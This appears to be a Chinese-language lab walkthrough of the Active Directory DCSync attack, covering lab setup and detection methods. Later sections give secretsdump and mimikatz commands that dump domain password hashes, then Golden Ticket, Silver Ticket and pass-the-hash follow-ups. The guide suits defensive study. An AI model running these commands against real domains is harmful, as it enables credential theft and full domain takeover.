



# DCSync

## 0x 01 原理
### 1.1 DC 同步机制简述

AD 域可以有多个域控，域控之间需要同步密码数据。这套同步协议叫 **DRSUAPI** (Directory Replication Service Remote Protocol)：

DC02 → DC01: "把最新的密码哈希同步给我，我是另一台域控"  
DC01 → DC02: 发送 NTDS.dit 中所有账户的哈希

DC01 **不验证请求方是否真的是域控**——它只验证请求方是否有权限。拥有 `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` 权限的账户， 就可以**冒充域控**发起复制请求，把全域哈希拉到本地。

默认具有 DCSync 权限的组：

|组|范围|说明|
|---|---|---|
|**Domain Admins**|单域|最常见，普通域管|
|**Enterprise Admins**|整个林|林根域才有，权限跨所有子域|
|**Administrators**|单域|内置组，Domain Admins 是它的自动成员|
|**Domain Controllers**|单域|所有域控机器账户，负责域控间互相同步|

权限继承关系：

Enterprise Admins → 林的每个域都有 DCSync  
     └─ Administrators (内置)  
          ├─ Domain Admins (自动成员)  
          └─ Domain Controllers (域控机器账户)

> Domain Controllers 组里都是 `DC01$`、`DC02$` 这样的机器账户，密码 120 字符随机， 无法爆破，通常情况下难以获取账户控制权限。
### 1.2 漏洞前置条件

|     | 条件                            | 为什么               | 对应靶场                |
| --- | ----------------------------- | ----------------- | ------------------- |
| ①   | 目标账户具有 DCSync 权限              | 域控只检查权限、不检查身份     | bob (Domain Admins) |
| ②   | 攻击机能连到域控 (445 + 135 + 动态 RPC) | DRSUAPI 走 SMB/RPC | Kali → DC01         |
| ③   | 拥有该账户的凭据 (密码或 NTLM Hash)      | secretsdump 需要认证  | bob / P@ssw0rd2     |
## 0x 02 漏洞复现
### 2.1 靶场部署
在 DC01 上以域管理员执行——将 bob 加入 Domain Admins，赋予 DCSync 权限：
```powershell
# bob 加入域管理员组
net group "Domain Admins" bob /add /domain

# 确认
net group "Domain Admins" /domain
```

通常情况下，实战不会遇到拥有 `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` 权限的账户，但在靶场环境还是有可能的。
```
# 获取域 DN 和 SID
$domain = Get-ADDomain
$domainDN = $domain.DistinguishedName  # DC=corp,DC=local

# 授予 bob DCSync 权限
dsacls $domainDN /I:S /G "$($domain.DomainSID):CA;Replicating Directory Changes"
dsacls $domainDN /I:S /G "$($domain.DomainSID):CA;Replicating Directory Changes All"
```
### 2.2 漏洞发现
**方法一：impacket-secretsdump

```bash
# 能拉出哈希 = 有 DCSync 权限
impacket-secretsdump corp.local/bob:P@ssw0rd2@192.168.127.10
# STATUS_ACCESS_DENIED → 没有权限
# 输出哈希 → 有权限 ✅
```


**方法二：nxc 查看组成员**

```bash
nxc ldap 192.168.127.10 -u bob -p P@ssw0rd2 --groups "Domain Admins"
```


**方法三：BloodHound**

```cypher
MATCH (u:User)-[:MemberOf*..]->(g:Group)
WHERE g.name =~ "(?i)DOMAIN ADMINS|ADMINISTRATORS"
RETURN u.name, g.name
```

**方法四：PowerView**

```powershell
Get-ObjectAcl -DistinguishedName "dc=corp,dc=local" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -eq "DS-Replication-Get-Changes" }
```
### 2.3 攻击复现
**1. impacket-secretsdump

```bash
# 用 Domain Admins 成员 bob 直接拉取全域哈希
impacket-secretsdump corp.local/bob:P@ssw0rd2@192.168.127.10

# 只提取 krbtgt（最精简，为 Golden Ticket 做准备）
impacket-secretsdump corp.local/bob:P@ssw0rd2@192.168.127.10 -just-dc-user krbtgt

# 只提取 Administrator
impacket-secretsdump corp.local/bob:P@ssw0rd2@192.168.127.10 -just-dc-user Administrator
```

输出格式解读：

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f7c3a6d8b1e94f25a6c0d9e83f7b245a:::
  │     │   │                               │
  │     │   └─ LM Hash (已废弃, 固定占位符)    └─ NTLM Hash ← 核心
  │     └─ RID (502 = krbtgt)
  └─ 用户名
```

**2. Mimikatz**
```
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt
mimikatz # lsadump::dcsync /domain:corp.local /user:Administrator
mimikatz # lsadump::dcsync /domain:corp.local /all
```
## 0x 03 进一步利用

基于DCSync 获取的哈希按用途分类：

|哈希|攻击|效果|
|---|---|---|
|**KRBTGT NTLM Hash**|Golden Ticket|伪造任意用户 TGT，域内万能通行证|
|**Administrator NTLM Hash**|PtH / Overpass-the-Hash|域管直接登录任意域内机器|
|**普通用户哈希 (alice, bob)**|PtH / 密码爆破|横向移动|
|**DC01$ 机器账户**|Silver Ticket|伪造 DC01 的服务票据|
|**所有用户哈希**|离线破解弱密码 / 密码复用|用破解出的密码继续横向|
### 3.1 接 Golden Ticket（KRBTGT）

拿到 KRBTGT NTLM Hash 后，先获取 Domain SID：

```bash
impacket-lookupsid corp.local/bob:P@ssw0rd2@192.168.127.10 | grep "Domain SID"
# Domain SID: S-1-5-21-xxxxxxxxx-xxxxxxxxx-xxxxxxxxx
```

制作 Golden Ticket：

```bash
# 伪造 Administrator 的 TGT（有效期 10 年）
impacket-ticketer \
  -nthash f7c3a6d8b1e94f25a6c0d9e83f7b245a \
  -domain-sid S-1-5-21-xxxxxxxxx-xxxxxxxxx-xxxxxxxxx \
  -domain corp.local \
  Administrator

# 导入票据
export KRB5CCNAME=Administrator.ccache

# 访问 DC01
impacket-psexec corp.local/Administrator@dc01.corp.local -k -no-pass
```

### 3.2 接 Pass-the-Hash（Administrator）

```bash
# 直接用 NTLM Hash 登录
impacket-wmiexec -hashes :89551acff8895768e489bb3054af94fd Administrator@192.168.127.10
evil-winrm -i 192.168.127.10 -u Administrator -H 89551acff8895768e489bb3054af94fd
```

### 3.3 接 Silver Ticket（DC01$ 机器账户）

```bash
# 用 DC01$ 的 NTLM Hash 伪造 CIFS 服务票据
impacket-ticketer \
  -nthash <dc01$_ntlm_hash> \
  -domain-sid <domain_sid> \
  -domain corp.local \
  -spn cifs/dc01.corp.local \
  Administrator

export KRB5CCNAME=Administrator.ccache
impacket-smbclient corp.local/Administrator@dc01.corp.local -k -no-pass
```
